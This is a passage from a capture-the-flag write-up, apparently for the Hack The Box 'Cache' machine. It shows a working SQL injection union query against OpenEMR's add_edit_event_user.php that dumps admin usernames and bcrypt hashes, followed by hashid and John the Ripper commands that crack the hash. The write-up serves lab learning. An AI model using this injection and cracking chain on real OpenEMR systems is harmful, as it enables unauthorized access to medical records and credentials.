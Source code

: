 Doesn't look like we have any password, let's try the similar query for `users_secure` table:

```terminal
/portal/add_edit_event_user.php?eid=1 union select null,null,group_concat(username,0x3a,password),NULL from users_secure
```
![usersecure](/assets/img/Posts/Cache/usersecure.png)

Great! We have a username and its hash `openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.`, let's crack it using john.

### Cracking hashes

Before cracking the hash let's check it's format using `hashid`

```shell
cfx:  ~/Documents/htb/cache
→ hashid -j '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.'
Analyzing '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.'
[+] Blowfish(OpenBSD) [JtR Format: bcrypt]
[+] Woltlab Burning Board 4.x
[+] bcrypt [JtR Format: bcrypt]
```
Hash Format for John is `bcrypt`

```shell
cfx:  ~/Documents/htb/cache
→ cat openemr_admin.hash
openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
```

```shell
cfx:  ~/Documents/htb/cache
→ john --format=bcrypt -w=/usr/share/wordlists/rockyou.txt openemr_admin.hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE 2/3 (2020-10-14 16:40) 1.666g/s 1920p/s 1920c/s 1920C/s water..88888888
Use the "--show" option to display all of the cracked passwords reliably
Session completed

cfx:  ~/Documents/htb/cache
→ john --show openemr_admin.hash
openemr_admin:xxxxxx

1 password hash cracked, 0 left
```
So we have credentials for OpenEMR as `openemr_admin:xxxxxx`
